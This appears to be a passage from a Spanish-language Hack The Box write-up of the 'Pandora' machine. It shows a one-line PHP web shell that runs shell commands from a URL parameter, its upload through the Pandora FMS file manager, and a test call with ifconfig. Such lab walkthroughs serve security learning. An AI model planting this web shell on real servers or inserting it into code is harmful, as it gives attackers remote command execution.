 ![pandora-7](/assets/img/htb/pandora/pandora-7.png)

---
Creamos un archivo PHP llamado `cmd.php` que contendrá el siguiente código. Este script PHP tomará el parámetro `cmd` de la URL y lo ejecutará como un comando en el servidor, devolviendo la salida al navegador.

```bash
echo '<?php echo "<pre>" . shell_exec($_REQUEST["cmd"]) . "</pre>"; ?>' > cmd.php
```
---
Subimos este archivo utilizando el "File Manager" del panel de Pandora FMS.

![pandora-8](/assets/img/htb/pandora/pandora-8.png)

---
Una vez subido, el archivo estará accesible en la ruta `http://localhost/pandora_console/images/cmd.php`. Accedemos para ver si se ejecuta correctamente y si obtenemos la salida del comando ifconfig. Como esperábamos, el comando se ejecuta y vemos la configuración de red del servidor en nuestro navegador.
